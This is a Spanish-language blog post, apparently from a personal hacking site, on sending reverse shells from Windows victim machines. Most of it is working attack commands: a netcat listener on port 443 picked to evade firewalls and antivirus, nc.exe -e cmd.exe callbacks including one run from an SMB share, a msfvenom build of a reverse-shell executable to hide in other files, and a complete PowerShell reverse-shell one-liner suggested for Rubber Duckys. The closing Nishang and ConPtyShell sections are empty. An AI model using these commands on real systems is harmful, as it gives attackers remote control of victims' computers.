 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

![](/assets/images/web-hacking/reverse-shell-windows/)

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor `SMB` y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

Msfvenom no solo es útil cuando nos generamos `shellcodes` para los `Buffer Overflow`, también lo es para `crear binarios que nos ejecuten una shell en Windows`. En concreto, los dos `payloads que nos pueden interesar` (aunque hay más y de muchos tipos) son los siguientes:

```
> msfvenom -l payloads | grep -i 'windows' | grep -i '/shell_reverse'
windows/shell_reverse/tcp                            Connect back to attacker and spawn a command shell
windows/x64/shell_reverse/tcp                        Connect back to attacker and spawn a command shell (Windows x64)
```

Si la máquina víctima es de `32 bits` usaremos el primero y si es de `64` usaremos el segundo.

Con el siguiente comando creamos un `ejecutable` que si lo ejecutamos en la máquina víctima nos mandará una `reverse shell`. Claro, para eso tendremos que `ocultarlo` dentro de otro archivo, o también podríamos ponerlo en un servidor web hecho con python y que la máquina víctima lo descargue y lo ejecute, pero no me quiero extender mas aquí.

```
> msfvenom -p <payload> LHOST=<ip> LPORT=443 -a x<arquitectura> -f exe -o shell.exe
```

## Powershell Reverse Shell One-Liner

En `Powershell` que es un lenguaje muy potente que maneja `Windows` hay un comando con el que nos podemos mandar una reverse shell con una única linea de codigo:

```
> $client = New-Object System.Net.Sockets.TCPClient("<tu IP>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

No es muy recomendable utilizar este metodo para obtener acceso desde una `webshell` o desde una `cmd`, pero `es muy util para Rubber Duckys`.

## Nishang

## ConPtyShell
